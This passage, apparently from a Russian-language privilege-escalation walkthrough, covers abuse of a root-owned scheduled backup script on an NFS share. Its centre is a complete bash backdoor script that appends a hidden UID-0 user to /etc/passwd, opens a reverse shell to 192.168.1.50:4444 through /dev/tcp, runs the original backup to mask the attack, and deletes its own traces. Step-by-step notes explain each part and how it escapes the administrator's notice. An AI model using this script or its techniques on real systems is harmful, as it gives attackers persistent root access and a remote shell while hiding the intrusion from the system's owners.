 **Пояснения:**
1. `ls -la`: Показать подробный список файлов с владельцами
2. `cat`: Просмотреть содержимое скрипта резервного копирования
3. Ищем:
   - Скрипты, принадлежащие root
   - Скрипты, выполняемые по расписанию
   - Скрипты с правами на выполнение (x)

**Ключевая находка:**  
Скрипт `daily_backup.sh` выполняется ежедневно от имени root и делает резервные копии данных.

---

#### Шаг 4: Подготовка вредоносного скрипта (Execution)
**Цель:** Создать скрипт, который даст контроль над системой.

**Код скрипта:**
```bash
cat << 'EOF' | sudo tee /mnt/nfs_scripts/evil_backdoor.sh
#!/bin/bash

# 1. Добавление скрытого пользователя
echo "backdoor:\$6\$salt\$hash:0:0:root:/root:/bin/bash" >> /etc/passwd

# 2. Обратный шелл для немедленного доступа
bash -c "bash -i >& /dev/tcp/192.168.1.50/4444 0>&1" &

# 3. Выполнение оригинального скрипта
/bin/bash /scripts/daily_backup.sh.orig

# 4. Удаление следов
rm /scripts/evil_backdoor.sh
mv /scripts/daily_backup.sh.orig /scripts/daily_backup.sh
EOF
```

**Пояснения компонентов:**
1. **Добавление пользователя:**
   - `backdoor`: Имя пользователя
   - `\$6\$salt\$hash`: Хэш SHA-512 пароля (например, `P@ssw0rd`)
   - `0:0`: UID и GID root
   - `/bin/bash`: Оболочка по умолчанию

2. **Обратный шелл:**
   - `bash -i`: Интерактивная оболочка
   - `>& /dev/tcp/...`: Перенаправление ввода/вывода в TCP-соединение
   - `0>&1`: Перенаправление stdin в stdout
   - `&`: Запуск в фоновом режиме

3. **Маскировка:**
   - Выполнение оригинального скрипта скрывает факт атаки
   - Администратор не заметит сбоя в работе

4. **Скрытие следов:**
   - Удаление вредоносного скрипта
   - Восстановление оригинального имени файла

---